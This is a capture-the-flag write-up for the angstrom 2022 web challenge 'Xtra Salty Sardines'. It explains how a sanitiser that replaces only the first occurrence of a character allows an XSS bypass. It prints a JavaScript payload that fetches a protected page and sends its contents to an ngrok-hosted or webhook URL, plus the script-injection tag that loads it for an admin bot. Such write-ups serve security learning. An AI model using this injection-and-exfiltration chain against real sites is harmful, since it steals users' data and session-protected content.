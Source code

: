 # angstrom 2022 - Xtra Salty Sardines

* **Category:** web
* **Points:** 70

## Challenge

>Clam was intensely brainstorming new challenge ideas, when his stomach growled! He opened his favorite tin of salty sardines, took a bite out of them, and then got a revolutionary new challenge idea. What if he wrote a site with an extremely suggestive acronym?

## Solution
```python
vuln = "Xtra Salty Sardines"
print(f"Vuln: {vuln[0]}{vuln[5]}{vuln[11]}")
#Vuln: XSS
```
#### XSS Bypass
![image](https://user-images.githubusercontent.com/78451563/166805274-bb37ee0d-1452-474e-a256-719426e7e6da.png)
![image](https://user-images.githubusercontent.com/78451563/166806002-020feebe-1b22-4228-85bb-4209f71a4433.png)</br>
♡ Though it uses the replace function to sanatize the input, it will only act on the first character presented.</br>
♡ Therefore, we can enter our payload twice to bypass.</br>
#### Ngrok + Webhook
```javascript
//payload.js
var request = new XMLHttpRequest();
request.onload = sendBack;
request.open('GET','https://xtra-salty-sardines.web.actf.co/flag');
request.send();

function sendBack(){
        location = '<WEB HOOK URL>/result?result=' + btoa(this.responseText);
}
```
♡ We can host this payload using ngrok `ngrok http 80`</br>
♡ And in the script replace the `sendBack` location using a webhook from [webook.site](https://webhook.site)</br>
#### Payload
![image](https://user-images.githubusercontent.com/78451563/166808856-29dd8652-c9a4-4a73-b082-afd198f9f65a.png)</br>
![image](https://user-images.githubusercontent.com/78451563/166809657-af371a6d-1017-4bcf-b21f-532eb386e121.png)</br>
`<h1>"r4nd0m"</h1><script src="https://change-me-plz.ngrok.io/payload.js"></script>`</br>
♡ This bypassing payload source is to the `payload.js` hosted on our `ngrok` server</br>
♡ When sent our payload to `https://xtra-salty-sardines.web.actf.co/` we should create a directory with our payload inside e.g `/sardines/abcdefg`</br>
### Exploitation
![image](https://user-images.githubusercontent.com/78451563/166809982-08d011ad-0833-43c1-844d-a3570807b972.png)
![image](https://user-images.githubusercontent.com/78451563/166811614-60adf1ca-0e49-4f45-aed5-4508e32b87b3.png)
♡ Visit [Admin bot](https://admin-bot.actf.co/xtra-salty-sardines)</br>
♡ Send the link which has the XSS payload on</br>
♡ Visited webhooks and base64 decode the results
```
Flag: actf{those_sardines_are_yummy_yummy_in_my_tummy}
```
